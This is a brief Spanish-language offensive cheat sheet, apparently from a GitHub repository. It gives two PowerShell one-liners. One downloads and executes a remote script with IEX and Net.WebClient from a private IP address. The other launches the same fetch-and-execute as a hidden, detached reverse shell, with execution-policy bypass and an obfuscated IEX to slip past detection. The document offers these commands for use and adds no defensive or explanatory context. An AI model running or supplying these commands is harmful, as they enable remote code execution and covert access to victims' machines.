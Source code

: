 
## Descargar y ejecutar desde powershell

```cmd
IEX(New-Object Net.WebClient).DownloadString('http://192.168.5.126/payload.ps1')
```



## Reverse shell que no cuelgue de un proceso

```cmd
cmd /C START /MIN powershell -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c "I'E'X(New-Object Net.WebClient).DownloadString('http://192.168.5.126/payload.ps1')"
```








